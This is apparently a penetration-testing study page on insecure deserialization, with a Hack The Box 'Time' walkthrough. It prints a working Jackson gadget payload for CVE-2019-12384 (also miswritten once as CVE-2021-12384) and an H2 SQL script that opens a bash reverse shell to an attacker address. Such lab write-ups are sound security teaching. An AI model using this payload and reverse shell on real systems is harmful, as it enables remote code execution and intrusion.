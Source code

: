 # Deserialization

Deserialization exploits the fact that a website may directly pass user input to a function that does not check the user input, which may have malicious functions or code.&#x20;

## How it Works

We first need to understand what serialization is.

<figure><img src="../.gitbook/assets/image (16) (1) (2).png" alt=""><figcaption><p><em>Taken from Portswigger Web Security Academy</em></p></figcaption></figure>

Websites would take in input via some function, and then serialize it into a certain format to be passed back to the server for processing. This format can be in form of a string, base64 encoded, binary, etc. Depends on the language and functions used for the website.&#x20;

The security flaw happens when the website deserializes it back and processes it. This would give an attacker control over objects passed into the application, which can be harmful. Most of the time, the flaw comes from the general lack of understanding of how dangerous deserializing user-controllable data can be. Ideally, user input should **never be deserialized at all**.&#x20;

It is impossible to check for every single potential thing in deserialized data to ensure it is safe. Also, even if checks are implemented, it may already be too late as the data can cause an exception in the code through the deserialization process.

This kind of attack mainly leads to RCE or DoS conditions on a website, which are really severe. **In short, never trust user input.**

## Example

The HTB machine, Time, has a deserialization in Java making use of CVE-2021-12384. The machine has a website that basically takes in JSON input and beautifies it.

<figure><img src="../.gitbook/assets/image (11) (4) (2) (1).png" alt=""><figcaption></figcaption></figure>

We can enter some random JSON objects and it would output it as you would expect. If we enter some weird input, an error like this would appear:

<figure><img src="../.gitbook/assets/image (4) (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can see that the website uses Jackson to execute the function. Jackson is vulnerable to CVE-2019-12384, which is an RCE exploit involving passing this URL as a JSON object to be serialized:

```
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://localhost:8000/inject.sql'"}]
```

The payload above exploits SSRF and makes the website request any link of our own, and in this case, we can run SQL scripts directly through this callback. This would allow us to craft a malicious SQL Script that would give us a reverse shell.

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
   String[] command = {"bash", "-c", cmd};
   java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
   return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -c "bash -i >& /dev/tcp/10.10.14.5/4444 0>&1"')
```

This is one example of how input was not sanitised on the website, and it processed the JSON object we input although it was only supposed to beautify it.

